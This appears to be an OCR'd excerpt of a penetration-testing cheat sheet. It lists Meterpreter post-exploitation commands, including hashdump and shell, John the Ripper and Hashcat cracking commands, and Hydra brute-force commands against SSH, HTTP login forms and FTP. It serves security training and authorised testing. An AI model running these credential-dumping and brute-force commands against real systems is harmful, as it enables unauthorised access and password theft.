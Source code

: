 ```bash
sysinfo
getuid
hashdump
screenshot
shell
```

**4. Password Cracking:**

**John the Ripper:**
```bash
# Basic cracking
john hashes.txt

# With wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt

# Crack specific format
john --format=raw-md5 hashes.txt
```

**Hashcat:**
```bash
# Brute force
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a

# Dictionary attack
hashcat -m 0 -a 0 hashes.txt wordlist.txt

# With rules
hashcat -m 0 -a 0 hashes.txt wordlist.txt -r rules/best64.rule

# Hash modes:
# 0 = MD5
# 100 = SHA1
# 1000 = NTLM
# 3200 = bcrypt
```

**Hydra:**
```bash
# SSH brute force
hydra -l admin -P passwords.txt ssh://192.168.1.1

# HTTP POST form
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# FTP brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.1
```
